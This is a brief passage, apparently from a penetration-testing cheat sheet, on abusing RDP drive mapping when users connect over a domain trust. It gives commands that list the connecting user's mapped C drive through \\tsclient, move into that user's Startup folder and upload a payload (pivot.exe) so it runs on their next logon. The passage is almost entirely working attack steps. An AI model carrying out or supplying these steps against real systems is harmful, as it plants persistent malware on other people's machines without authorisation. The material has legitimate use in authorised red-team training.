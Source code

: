 ````
- Works when users from a outbound trust RDP into a computer in the current domain with drive mapping.
 
#### Check the testclient C Drive
```
ls \\tsclient\c
```

#### Go to the startup folder of the user:
```
cd \\tsclient\c\Users\<USER>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
 
#### Upload paylaod
```
upload C:\Payloads\pivot.exe
```
 
